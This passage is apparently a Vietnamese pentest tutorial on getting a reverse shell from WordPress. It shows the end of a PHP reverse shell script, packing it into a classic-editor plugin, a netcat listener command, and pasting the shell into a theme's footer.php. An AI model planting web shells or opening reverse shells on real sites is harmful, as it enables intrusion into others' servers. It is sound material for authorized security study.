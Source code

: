 ```php=
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

### Upload plugin or template

Tải một plugin bất kỳ về máy, ở đây mình chọn plugin classic-editor, unzip và thêm file `reverse-php-shell.php`

![image](https://hackmd.io/_uploads/SJKNGcJzR.png)

Zip lại và upload plugin lên server

![image](https://hackmd.io/_uploads/S1LkQqyz0.png)

Mở terminal trên máy lên, ở đây mình sử dụng MacOS nên câu lệnh netcat listener để bắt reverse shell của mình trông như sau:

```
nc -lk 1414
```

Sau khi upload thành công và bật netcat listener thì ta có thể truy cập đến file theo đường dẫn sau

```
/wp-content/plugins/classic-editor/reverse-php-shell.php
```

Lúc này file PHP sẽ được thực thi và gửi shell tới IP và port của máy hacker

![image](https://hackmd.io/_uploads/rJ31HqJGC.png)

### Plugin file editor or Theme file editor

Dùng chức editor để chỉnh sửa file bất kỳ có sẵn trong wordpress, ở đây có thể chỉnh sửa `footer.php` của template hiện tại

![image](https://hackmd.io/_uploads/Hkpt3_lfR.png)

Ta có thể copy nội dung của file `reverse-php-shell.php` paste vào `footer.php`. Bật netcat listener, sau đó chọn Update File

Quan sát thấy trên terminal đã nhận được shell gửi về từ file `footer.php`. 
